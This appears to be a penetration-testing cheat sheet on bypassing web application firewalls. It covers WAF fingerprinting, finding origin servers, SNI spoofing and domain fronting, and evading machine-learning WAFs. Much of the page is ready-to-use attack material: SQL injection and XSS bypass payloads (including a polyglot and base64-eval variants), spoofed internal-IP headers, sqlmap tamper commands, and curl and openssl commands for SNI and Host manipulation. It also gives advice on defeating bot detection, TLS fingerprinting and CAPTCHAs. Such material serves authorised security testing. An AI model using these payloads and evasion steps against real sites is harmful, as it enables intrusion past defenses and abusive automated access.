

# WAF Bypass

## Summary

Techniques to evade Web Application Firewall (WAF) protections during security assessments. WAFs analyze HTTP requests and apply rules to identify and block malicious traffic. Bypass techniques span network-level obfuscation (residential IPs, origin server direct), request manipulation (header spoofing, encoding, parameter pollution), protocol-level tricks (HTTP/2/3, SNI manipulation, domain fronting), and attack-specific obfuscation (SQLi, XSS, GraphQL). Evading ML-based WAFs requires semantic manipulation, adversarial token injection, and context confusion.

## Key Concepts

- **Negative Model (Blacklist-based)**: Uses pre-set signatures to block known malicious requests. Bypass by obfuscating payloads to avoid signature matches.
- **Positive Model (Whitelist-based)**: Only allows requests matching specific patterns. More restrictive — requires finding allowed patterns that can carry malicious intent.
- **Origin Bypass**: Contacting the server directly via its IP (Shodan, historical DNS records) to bypass the WAF layer entirely.
- **SNI Spoofing**: Sending a TLS SNI for an allowed domain while directing traffic to a blocked server IP.
- **Domain Fronting**: Using a CDN that routes based on Host header — SNI shows an allowed domain, Host header specifies the blocked target.
- **JA3/JA4/TLS Fingerprinting**: WAFs fingerprint TLS handshake parameters — mismatches with legitimate browser fingerprints trigger blocks.
- **ML-Based WAF Evasion**: Manipulating payload semantics, tokenization, and feature weights to evade machine learning classifiers.

## Technical Details

### WAF Detection & Fingerprinting

**Popular WAFs and their fingerprints:**

| WAF | Fingerprint |
|-----|-------------|
| Cloudflare | `__cf_bm`, `cf_clearance`, `cf_chl_*` cookies, `/cdn-cgi/` routes |
| Akamai | `Akamai` headers/signatures |
| Imperva/Incapsula | `X-CDN: Incapsula` headers |
| AWS WAF | `AWSALB` or `AWSALBCORS` cookies |
| Sucuri | `X-Sucuri-ID` headers |
| ModSecurity | Specific error messages and block pages |
| Fastly Next-Gen WAF | `fastly-debug-*` headers, service IDs in responses |
| DataDome | Custom JS challenges |
| F5 Networks | Specific block pages |
| Azure Front Door | `Azure` headers |
| Cloudflare AI WAF | Turnstile, Bot Management headers |
| Radware | `X-Radware` headers |
| Coraza | Open-source Go-based WAF |

**Detection methods:**
- Inspect control pages and block pages
- Analyze HTTP response headers for WAF-specific indicators
- Examine cookies (e.g., `cf_clearance` for Cloudflare)
- Look for specific routes (e.g., `/cdn-cgi/` for Cloudflare)
- Check injected JavaScript objects (e.g., `_cf_chl_opt`)
- Compare JA3/JA4 TLS fingerprints against known browser fingerprints
- Observe HTTP/2/3 protocol behavior — some WAF policies differ by protocol

### WAF Operating Models



### Bypass Category Overview

```mermaid
flowchart TD
    A[WAF Bypass] --> B[Network Level]
    A --> C[Request Manipulation]
    A --> D[Protocol Level]
    A --> E[Attack Specific]
    A --> F[ML Evasion]

    B --> B1[Residential IPs]
    B --> B2[Origin Server Direct]
    B --> B3[IP Rotation]
    B --> B4[Distributed Requests]

    C --> C1[Header Manipulation]
    C --> C2[Parameter Pollution]
    C --> C3[HTTP Protocol Tricks]
    C --> C4[Encoding Variations]

    D --> D1[HTTP/2/3 Bypass]
    D --> D2[SNI Spoofing]
    D --> D3[Domain Fronting]
    D --> D4[TLS Fingerprint Evasion]

    E --> E1[SQLi Bypasses]
    E --> E2[XSS Obfuscation]
    E --> E3[JSON-Based Injection]

    F --> F1[Semantic Evasion]
    F --> F2[Adversarial Tokens]
    F --> F3[Feature Engineering]
```



## Detection Commands

```bash
# Fingerprint WAF
wafw00f https://target.com

# Blind WAF detection
identYwaf -u https://target.com

# Check WAF with specific payload
curl -s -X POST "https://target.com/search" \
  -d "<script>alert(1)</script>" \
  -D - | grep -iE "(cloudflare|incapsula|sucuri|akamai|blocked|denied)"

# Test WAF with simple probe
curl -s "https://target.com/?id=1'%20OR%20'1'='1" \
  -D - | head -20

# TLS fingerprint analysis
ja4plus -t target.com:443

# Test origin server bypass (find real IP first)
curl -s -H "Host: target.com" https://REAL_IP/

# HTTP/2 request test
curl --http2 -s -D - "https://target.com/"

# HTTP/3 request test
curl --http3 -s -D - "https://target.com/"

# Test SNI spoofing
curl -k --connect-to allowed.com::TARGET_IP \
  -H "Host: blocked-target.com" \
  https://allowed.com/
```

## Exploitation Payloads

### SQLi WAF Bypass Payloads

```sql
# Case variation
SeLeCt * FrOm Users

# Comment injection
UN/**/ION SE/**/LECT

# URL encoding
%55%4E%49%4F%4E%20%53%45%4C%45%43%54

# Hex encoding
0x53454C454354

# Whitespace manipulation
UNION++++SELECT

# Null byte injection
%00' UNION SELECT password FROM Users WHERE username='xyz'--

# Double encoding
%2527%2520UNION%2520SELECT

# JSON-based SQL injection
{"id": {"$gt": "' OR 1=1--"}}
```

### XSS WAF Bypass Payloads

```html
# HTML context


# Attribute context
" onmouseover="alert(1)

# JavaScript context
';alert(1);//

# Mutation XSS
<noscript><p title="</noscript>">

# Alternative tags
<svg onload=alert(1)>
<body onload=alert(1)>
<details open ontoggle=alert(1)>

# JavaScript obfuscation
<script>eval(atob('YWxlcnQoMSk='))</script>


# Unicode encoding in JS
<script>al\u0065rt(1)</script>

# Protocol obfuscation
<a href="javas&#99;ript:alert(1)">Click Me</a>

# CSS-based
<style>@keyframes x{}</style>
<xss style="animation-name:x" onanimationend="alert(1)"></xss>

# Polyglot XSS
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

### Header Spoofing Payloads

```
X-Forwarded-For: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Forwarded-Host: attacker.com
Client-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Forwarded: for=127.0.0.1;host=attacker.com
Referer: attacker.com
Origin: null
```

### HTTP Parameter Pollution

```
?id=safe&id=malicious
?sort=ASC&sort=DESC
```

## Commands

```bash
# Install WAF detection tools
pip install wafw00f
go install github.com/ffledgling/identYwaf@latest

# Start proxy rotation
proxychains curl https://target.com

# Use headless browser with stealth
pip install undetected-chromedriver

# Find origin IP via Shodan
shodan search "host:target.com http.title:'target'"

# Check historical DNS records
curl -s "https://api.securitytrails.com/v1/domain/target.com/history?apikey=KEY"

# Set up WAF testing
python -m wafw00f https://target.com -a  # aggressive scan

# Use SQLMap with tamper scripts
sqlmap -u "https://target.com/?id=1" --tamper=space2comment,between

# Test with GoTestWAF
gotester -target https://target.com -payloads payloads.txt

# SNI spoofing with openssl
openssl s_client -connect TARGET_IP:443 -servername allowed.com

# Domain fronting via curl
curl -H "Host: your-service.global.ssl.fastly.net" https://frontable.example.org/
```

## Tools

### WAF Fingerprinting
- **WAFW00F** — Ultimate WAF fingerprinting tool with largest fingerprint database
- **IdentYwaf** — Blind WAF detection using unique fingerprinting methods
- **ja4plus** — TLS fingerprint analysis and spoofing helpers

### WAF Testing
- **GoTestWAF** — Tests WAF detection logic and bypasses
- **Lightbulb Framework** — Python-based WAF testing suite
- **WAFBench** — WAF performance testing suite by Microsoft
- **FTW (Framework for Testing WAFs)** — Rigorous testing framework for WAF rules

### WAF Evasion
- **WAFNinja** — Fuzzes and suggests bypasses for WAFs
- **WAFTester** — Tool to obfuscate payloads
- **bypass-firewalls-by-DNS-history** — Uses old DNS records to find origin servers
- **abuse-ssl-bypass-waf** — Finds supported SSL/TLS ciphers for WAF evasion
- **SQLMap** — With tamper scripts for SQLi WAF bypass
- **Bypass WAF BurpSuite Plugin** — Adds headers to make requests appear internal
- **enumXFF** — Enumerates IPs in X-Forwarded-Headers to bypass restrictions
- **noble-tls / uTLS / tls-client** — Spoof browser-grade TLS stacks programmatically

### Browser Automation / Stealth
- **undetected_chromedriver** — Selenium with anti-detection
- **puppeteer-extra-plugin-stealth** — Puppeteer stealth plugin
- **playwright-extra** — Playwright with stealth plugin

## Methodology

1. **Fingerprint the WAF**: Run wafw00f and identYwaf to identify the WAF vendor and version.

2. **Find the origin server**: Use Shodan, SecurityTrails, or historical DNS records to find the real server IP and bypass the WAF entirely.

3. **Test protocol-level bypasses**:
   - Try HTTP/2 (`curl --http2`) and HTTP/3 (`curl --http3`) — some WAFs inspect HTTP/1.1 more deeply.
   - Test SNI spoofing by sending an allowed domain in SNI while targeting the actual server IP.
   - Attempt domain fronting via CDNs (Fastly) where SNI/Host mismatch is allowed.

4. **Manipulate request headers**:
   - Spoof `X-Forwarded-For`, `X-Real-IP`, `Client-IP` to make requests appear internal.
   - Add duplicate or conflicting headers to confuse WAF parsing.
   - Try Host header spoofing with a whitelisted domain.

5. **Apply encoding obfuscation**:
   - URL encode, double-encode, or hex-encode payloads.
   - Use Unicode normalization variants.
   - Inject comments into SQL/XSS keywords.

6. **Use residential/mobile IPs**: Data center IPs are easily detected. Route through residential proxy services.

7. **Fortify headless browsers**: Use undetected_chromedriver, puppeteer-extra-plugin-stealth, or playwright-extra to evade browser fingerprinting. Add human behavior simulation (mouse movements, random delays, scrolling).

8. **Bypass JavaScript challenges**: Analyze injected JS (e.g., Cloudflare challenge scripts), reverse-engineer the challenge, or use cfscrape/cloudscraper.

9. **Evade ML-based WAFs**:
   - Use semantic evasion (synonyms, paraphrasing) instead of literal payloads.
   - Inject adversarial noise tokens to confuse classifiers.
   - Target low-weight features (multipart filenames, headers) that ML models underweight.
   - Combine attack vectors to create context confusion.

10. **Apply attack-specific techniques**:
    - SQLi: Use JSON-based injection (`{"$gt"}` syntax), SQLMap tamper scripts, mixed encodings.
    - XSS: Mutation XSS, CSS-based attacks, protocol obfuscation, polyglot payloads.
    - GraphQL: Alias spamming, batch operations, query name tampering.

11. **Chain techniques**: Combine residential proxies + stealth browser + header manipulation + encoding for maximum effectiveness.

## Bypass Techniques

### Network Level

**Residential IPs**: Data center IPs are easily detected. Use residential proxy rotation services to appear as legitimate ISP customers.

**Origin Server Direct**: Find the real IP via Shodan, SecurityTrails API, or historical DNS records (~40% of Fortune-100 origins exposed via stale A records per 2024 research). Forge Host header to match the domain.

**IP Rotation**: Rotate proxies to avoid IP-based rate limiting. Use services like Luminati, Smartproxy, or oxylabs.

### Request Manipulation

**Header Spoofing**: Inject headers to make requests appear internal:
- `X-Forwarded-For: 127.0.0.1`
- `X-Real-IP: 127.0.0.1`
- `Client-IP: 127.0.0.1`
- `Forwarded: for=127.0.0.1;host=attacker.com`

**HTTP Parameter Pollution**: Send multiple parameters with the same name — WAF and backend may interpret differently.

**Content-Type Manipulation**: Change `Content-Type` between `application/x-www-form-urlencoded`, `application/json`, `multipart/form-data` to bypass format-specific rules.

**Host Header Spoofing**: Send a whitelisted domain in the Host header while connecting to the target IP. WAF sees the allowed host, backend routes to the actual target.

### Encoding Techniques

| Technique | Example |
|-----------|---------|
| URL encoding | `%55%4E%49%4F%4E` |
| Double encoding | `%2527` |
| Hex encoding | `0x53454C454354` |
| Unicode | `\u0061lert(1)` |
| HTML entities | `&#99;&#114;&#105;&#112;&#116;` |
| Null byte | `%00' UNION SELECT` |
| Mixed encoding | Combine multiple techniques |

### Protocol Level

**HTTP/2 `:authority` Header Bypass**: HTTP/2 replaces Host with `:authority` pseudo-header. WAFs not correctly parsing HTTP/2 may fail to extract or compare it with SNI.

**HTTP/3 (QUIC) Bypass**: HTTP/3 over QUIC (UDP) may bypass WAFs that don't inspect QUIC traffic. Servers announce HTTP/3 via `Alt-Svc` header.

**HTTP Method Obfuscation**: Use uncommon methods or case variations (`gEt` instead of `GET`). Add tabs before method.

**Chunked Transfer Encoding**: Send payload in chunks to bypass signature-based inspection.

### SNI Manipulation

**SNI Spoofing**: Send TLS SNI for a whitelisted domain while connecting to the blocked server's IP. The filter sees the allowed SNI; the Host header inside TLS specifies the actual target.

**Omitting SNI**: Connect directly to the server IP without sending SNI. The server returns a default certificate. Some WAFs rely on SNI for policy enforcement.

**ECH (Encrypted Client Hello)**: Encrypts the ClientHello including SNI, preventing WAFs from reading the target domain.

### Domain Fronting

Leverage CDNs that route based on Host header without validating SNI/Host match:
```bash
curl -H "Host: actual-service.global.ssl.fastly.net" \
  https://frontable-domain.example.org/
```
- SNI: `frontable-domain.example.org` (allowed, valid cert)
- Host header: `actual-service.global.ssl.fastly.net` (points to attacker-controlled origin)
- CDN forwards to the origin in Host header

Fastly historically allowed this. AWS CloudFront, Google Cloud CDN, and Azure CDN block SNI/Host mismatch.

### SQL Injection Specific Bypasses

- Case variation: `SeLeCt`, `UnIoN`
- Comment injection: `UN/**/ION SE/**/LECT`
- Whitespace alternatives: `UNION++++SELECT`, tabs, newlines
- Numeric representations: `CHAR(49)`, `0x31`
- String concatenation: `CONCAT('a','b')`, `'a'||'b'`, `'a'+'b'`
- JSON-based SQL injection: `{"id": {"$gt": "' OR 1=1--"}}`
- Half-width Unicode, overlong UTF-8, case folding differences
- SQLMap tamper scripts for automated chaining

### XSS Specific Bypasses

- Context-aware payloads (HTML, attribute, JS, CSS)
- Mutation XSS via HTML parsing quirks
- Alternative event handlers (`onanimationend`, `ontoggle`)
- CSS-based attacks (`@keyframes` + `onanimationend`)
- Protocol obfuscation with HTML entities
- CSP bypass via JSONP endpoints and allowed domains
- Polyglot payloads working in multiple contexts

### Evading ML-Based WAFs

- **Semantic Evasion**: Use synonyms and paraphrasing instead of literal payloads
- **Adversarial Token Injection**: Add noise tokens (`/*benign*/`) to confuse embedding models
- **Non-ASCII Lookalikes**: Use Cyrillic characters (`<ѕcript>`) that look identical to ASCII
- **Feature Engineering Bypass**: Place payload in low-weight features (multipart filenames, headers)
- **Context Confusion**: Mix attack vectors to confuse classifiers (`'><script>alert(1)</script>' UNION SELECT 1--`)
- **Vary entropy and payload tokenization**: Mislead n-gram/embedding models

### Browser Fingerprinting Evasion

- Randomize canvas fingerprinting results
- Modify user agent and HTTP headers periodically
- Spoof hardware/software features
- Use stealth plugins for Selenium/Puppeteer/Playwright
- Randomize JA3 and JA4 fingerprints using libraries like noble-tls or ja4py
- Align cipher suites, ALPN order, and signature algorithms with target browser versions

### CAPTCHA/Challenge Bypass

- Analyze injected JavaScript challenge scripts
- Use cfscrape/cloudscraper for Cloudflare
- Test token reuse and expiry timing
- Use CAPTCHA solving services (expensive, not always reliable)
- Visibility bypass: Complete challenges in hidden iframes

## Not a Finding If

- **WAF blocks basic payloads** — This is expected behavior, not a finding. The finding is the underlying vulnerability; WAF bypass is the method to reach it.
- **Origin server unreachable** — If the origin IP cannot be found or is also protected, bypass attempts will fail.
- **SNI/Host validation enforced** — CDNs like CloudFront and Azure block SNI/Host mismatch, preventing domain fronting.
- **TLS inspection active** — If the proxy performs deep TLS inspection and validates certificate chains, SNI spoofing and domain fronting are blocked.
- **IMDSv2 enforced with token** — AWS metadata endpoint requires PUT token request; most XXE parsers can't do PUT.
- **HTTP/3 blocked at network level** — Enterprises blocking UDP port 443 prevent HTTP/3 bypass attempts.

## Notes

- Always fingerprint the WAF first — different WAFs have different weaknesses.
- Origin bypass is the most reliable technique — if you can find the real IP, you skip the WAF entirely.
- Chain techniques for maximum effectiveness (residential IPs + stealth browser + header manipulation + encoding).
- Cloudflare cookies rotate roughly every 30 minutes — automated tools need to handle this.
- SQLMap's `--tamper` parameter with multiple scripts in combination is highly effective for SQLi WAF bypass.
- ML-based WAFs (e.g., Cloudflare AI WAF) can be tricked by placing payloads in lower-weighted features like multipart filenames.
- GraphQL WAF bypass is often overlooked — test batched queries, alias spamming, and custom directives.
- HTTP/2 Rapid Reset (CVE-2023-44487) and CONTINUATION flooding (2024) can overwhelm WAF backends.
- Encrypted Client Hello (ECH) adoption is expanding in modern browsers — expect increased prevalence for bypass in 2025.

## References

- https://portswigger.net/web-security/waf-bypass
- https://github.com/0xInfection/Awesome-WAF
- https://github.com/EnableSecurity/wafw00f
